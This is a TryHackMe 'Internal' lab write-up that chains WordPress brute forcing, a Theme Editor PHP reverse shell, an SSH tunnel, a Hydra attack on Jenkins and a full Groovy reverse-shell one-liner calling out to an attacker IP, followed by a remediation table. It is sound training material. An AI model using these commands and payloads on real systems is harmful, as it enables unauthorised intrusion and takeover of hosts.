# Internal — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Hard | **Target IP:** 10.67.155.57 | **Attacker IP:** 192.168.131.193

## Machine info



## Summary

**Internal** is a TryHackMe machine built around a multi-layer pivot. A WordPress blog's Theme Editor is abused to get a foothold as www-data, which leaks SSH credentials and a hint about an internal Jenkins service that is only reachable from inside the host. An SSH tunnel exposes that Jenkins instance, a corrected Hydra brute force cracks its login, and the Script Console is used for code execution as the jenkins user. A note left inside the Jenkins container then hands over the real root password for the underlying Ubuntu host.
**Attack chain:** Gobuster → WordPress Theme Editor RCE → www-data → Leaked SSH Credentials → SSH Tunnel to Internal Jenkins → Hydra Brute Force → Jenkins Script Console RCE → jenkins → Leaked Root Credentials → root

## 1. Reconnaissance — Nmap & Directory Enumeration

An Nmap scan of `10.67.155.57` showed only two open ports.

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.67.155.57

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 only served the default Apache page.



Gobuster was used to enumerate directories off the webroot.

```
gobuster dir -u http://10.67.155.57/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

blog                  (Status: 301) [Size: 311] [--> http://10.67.155.57/blog/]
wordpress            (Status: 301) [Size: 316] [--> http://10.67.155.57/wordpress/]
javascript           (Status: 301) [Size: 317] [--> http://10.67.155.57/javascript/]
phpmyadmin           (Status: 301) [Size: 317] [--> http://10.67.155.57/phpmyadmin/]
```

`/blog/` pointed to a WordPress install, but it didn't load correctly until `internal.thm` was added to `/etc/hosts`.

```
10.67.155.57    internal.thm
```



## 2. WordPress Enumeration & Credential Brute Force

`wpscan` confirmed the WordPress version and active theme, and enumerated the `admin` user via the author pattern.

```
wpscan --url http://internal.thm/blog/ -e u

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://internal.thm/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://internal.thm/blog/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 | Confirmed By: Rss Generator (Passive Detection)
 |  - http://internal.thm/blog/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2026-08-19 4:00am GMT (2 months ago, per WordPress.org)
 | Active Installs: 300,000 (per WordPress.org)
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 4.1
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating Users (via Passive and Aggressive Methods)

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
[i] 1 user(s) Identified.
```

With `admin` confirmed, `wpscan`'s XML-RPC password attack cracked the password against `rockyou.txt`.

```
wpscan --url http://internal.thm/blog/ -U admin -P /usr/share/wordlists/rockyou.txt

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```



## 3. Remote Code Execution via Theme Editor — www-data Shell

Logging in as `admin` with the cracked credentials, the Theme Editor (under Appearance) was used to overwrite the Twenty Seventeen theme's `404.php` with a `pentestmonkey` PHP reverse shell pointed at `192.168.131.193:4444`.



With a listener running, requesting the theme's 404 page triggered the payload.

```
curl http://10.67.155.57/blog/wp-content/themes/twentyseventeen/404.php
```

A shell was caught as `www-data`.



```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

## 4. Post-Exploitation as www-data — Leaked Credentials

Browsing the filesystem as `www-data` turned up two files in `/opt` left behind for `aubreanna`.

```
www-data@internal:/opt$ cat wp-save.txt

Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

A second file in the same directory named the internal service directly.

```
www-data@internal:/opt$ cat jenkins.txt

Internal Jenkins service is running on 172.17.0.2:8080
```

## 5. SSH Access as aubreanna — User Flag & Tunnel to Jenkins

`user.txt` sat in `aubreanna`'s home directory.



Jenkins sits on the internal Docker network at `172.17.0.2:8080` and isn't reachable directly. SSHing in as `aubreanna` with the leaked credentials and forwarding that port in the same command exposed the Jenkins login locally.





The login form's HTML showed the real POST endpoint is `j_acegi_security_check` (an older Jenkins build using Acegi Security), not the default `j_security_check` — Hydra was pointed at that endpoint instead.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"

[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
1 of 1 target successfully completed, 1 valid password found
```



## 6. Remote Code Execution via Jenkins Script Console — Shell as jenkins

With `admin` access, Script Console (under Manage Jenkins) allowed arbitrary Groovy execution. A `ProcessBuilder`/`Socket`-based reverse shell was run against a listener on `192.168.131.193:5555`.



```
String host="192.168.131.193";int port=5555;String cmd="bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Running it from the Script Console caught a connection on the listener.

```
nc -lvnp 5555
listening on [any] 5555 ...
connect to [192.168.131.193] from (UNKNOWN) [10.67.155.57] 47804
```

The same TTY stabilization sequence was reapplied here. The shell landed as a low-privilege user inside the Jenkins container itself.

```
jenkins@jenkins:/$ whoami
jenkins
jenkins@jenkins:/$ id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
```

`sudo -l` and a search for SUID binaries both came up empty — dead ends.

## 7. Privilege Escalation to root — Leaked Credentials in the Jenkins Container

`/opt` inside the Jenkins container held a note intended for `aubreanna`, with the real root password for the underlying host.

```
jenkins@jenkins:/opt$ cat note.txt

Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

Those credentials gave direct SSH access to the host as `root`.




## Root Cause & Remediation

| Issue | Fix |
|---|---|
| WordPress `admin` password was weak and brute-forceable over XML-RPC | Enforce strong, unique passwords; disable XML-RPC or rate-limit/lock out repeated failed logins |
| WordPress Theme Editor lets an authenticated admin write arbitrary PHP to disk | Disable file editing (`DISALLOW_FILE_EDIT`) and push theme/plugin changes through a deployment pipeline instead |
| Plaintext credentials and service hints left in readable files (`wp-save.txt`, `jenkins.txt`, `note.txt`) | Never store credentials in plaintext on disk; use a secrets manager and restrict file permissions |
| Jenkins exposed with a weak, brute-forceable `admin` password | Enforce strong passwords and account lockout on Jenkins |
| Jenkins Script Console reachable by any authenticated admin, allowing arbitrary code execution | Restrict Script Console access via RBAC/matrix security; avoid running Jenkins with broad host access |
| Root credentials reused and stored in a note reachable from inside the Jenkins container | Use unique credentials per host/service; eliminate credential reuse across trust boundaries |
